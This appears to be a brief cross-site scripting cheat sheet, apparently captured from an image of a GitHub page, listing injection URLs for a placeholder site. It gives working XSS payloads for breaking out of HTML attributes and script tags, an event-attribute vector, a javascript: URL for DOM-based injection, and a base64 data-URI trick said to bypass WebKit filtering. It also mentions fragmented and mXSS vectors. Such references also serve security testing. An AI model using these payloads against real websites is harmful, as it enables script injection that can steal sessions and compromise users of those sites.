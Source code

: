 Injecting inside HTML Tag Attributes:
```js
site.com/inject?x=giuseppe"><svg/onload=alert(1)>
```

We can bypass WebKit with:
```js
site.com/inject?x=giuseppe"><a/href="data:text/html;base64,<base64 payload>">clickhere<!--
```

Injecting Inside SCRIPT Tag:
```js
site.com/inject?name=belucci";alert(1);//
```

Injecting Inside Event Attributes:
```js
site.com/inject?roomID=alert(1)
```

DOM Based:
```js
site.com/inject?next=javascript:alert(1)
```

- DOM Based, there are other scenarios that are not covered by browsers filters.

> For example, **fragmented** vectors in multiple GET parameters or attacks that are not reflected in the same page, mXSS, etc.

